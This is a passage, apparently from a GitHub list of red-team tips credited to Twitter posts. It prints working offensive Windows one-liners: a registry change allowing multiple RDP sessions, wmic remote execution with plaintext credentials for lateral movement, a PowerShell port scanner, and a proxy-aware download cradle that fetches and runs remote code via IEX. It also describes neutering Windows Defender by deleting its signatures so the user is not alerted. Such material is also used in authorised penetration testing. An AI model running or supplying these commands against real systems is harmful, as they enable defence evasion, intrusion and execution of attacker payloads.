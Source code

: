 **Description:** *'A bit messy, but if Windows Defender is causing you a big headache, rather than disabling it (which alerts the user), you should just neuter it by deleting all the signatures.'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1611005101262389250)

### [🔙](#tool-list)Enable multiple RDP sessions per user

```bash
reg add HKLM\System\CurrentControlSet\Control\TerminalServer /v fSingleSessionPerUser /d 0 /f
```

**Description:** *'Sometimes you want to log in to a host via RDP or similar, but your user has an active session. Enable multiple sessions per user.'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1609954528425558016)

### [🔙](#tool-list)Sysinternals PsExec.exe local alternative

```bash
wmic.exe /node:10.1.1.1 /user:username /password:pass process call create cmd.exe /c " command "
```

**Description:** *'Are you tired of uploading Sysinternals PsExec.exe when doing lateral movement? Windows has a better alternative preinstalled. Try this instead.'*

**Credit:** [@GuhnooPlusLinux](https://twitter.com/GuhnooPlusLinux)

**Link:** [Twitter](https://twitter.com/GuhnooPlusLinux/status/1607473627922063360)

### [🔙](#tool-list)Live off the land port scanner

```bash
0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect(<tgt_ip>,$_)) "Port $_ open"} 2>$null
```

**Description:** *'When possible, live off the land rather than uploading tools to machines (for many reasons). PowerShell/.NET help. Ex: simple port scanner in Powershell.'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1605060950339588096)

### [🔙](#tool-list)Proxy aware PowerShell DownloadString

```bash
$w=(New-Object Net.WebClient);$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;IEX $w.DownloadString("<url>")
```

**Description:** *'Most large orgs are using web proxies these days. The standard PowerShell download cradle is not proxy aware. Use this one.'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)
